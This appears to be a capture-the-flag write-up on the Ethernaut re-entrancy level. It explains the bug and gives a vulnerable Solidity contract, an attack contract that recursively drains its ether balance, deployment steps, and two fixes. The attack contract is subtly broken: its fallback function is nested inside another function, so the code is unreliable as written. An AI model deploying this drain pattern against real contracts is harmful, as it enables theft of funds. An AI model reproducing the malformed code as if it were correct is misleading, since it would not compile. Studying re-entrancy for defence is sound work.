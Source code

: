 # Re-Entrancy Attack (DAO Attack)

Re-entrancy vulnerablitily: making an external function call without your function finishing its own algorithm. 

Ex:

![reentrancy](./screenshots/reentrancy.png)

Contract B is recursively calling contract A's call function because the balances decrement math is never reached.

Vulnerable code:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import '@openzeppelin/contracts/math/SafeMath.sol';

contract Reentrance {
  
  using SafeMath for uint256;
  mapping(address => uint) public balances;

  function donate(address _to) public payable {
    balances[_to] = balances[_to].add(msg.value);
  }

  function balanceOf(address _who) public view returns (uint balance) {
    return balances[_who];
  }

  function withdraw(uint _amount) public {
    if(balances[msg.sender] >= _amount) {
      (bool result,) = msg.sender.call{value:_amount}("");
      if(result) {
        _amount;
      }
      balances[msg.sender] -= _amount;
    }
  }

  receive() external payable {}
}
```

Attacking code:

```solidity
pragma solidity ^0.6.10;

import './Reentrance.sol';

contract EthernautReentrancyAttack{
	Reentrance target;
	uint public amount = 1 ether; //withdrawal amount each time
	
	constructor(address payable _targetAddr) public payable {
		target = Reentrance(_targetAddr);
	}
	
	function donateToTarget() public {
		target.donate.value(amount).gas(4000000)(address(this)); //need to add value to this fn
		
	fallback() external payable{
		if (address(target).balance != 0){
			target.withdraw(amount);
		}
	}
	}
}
```

Deploy your attack contract with 1 ether in value at the address of the contract you want to attack.

Then donate 1 ether and then click on "Transact" in the Low level interactions tab. This will call the contract you made's fallback function and execute the siphon.

<u>**Fixes:**</u>

1. Do the arithmetic before the call to the external contract is made.

![reentrancy_fix1](./screenshots/reentrancy_fix1.png)

2. Mutex Lock

   ![reentrancy_fix2](./screenshots/reentrancy_fix2.png)

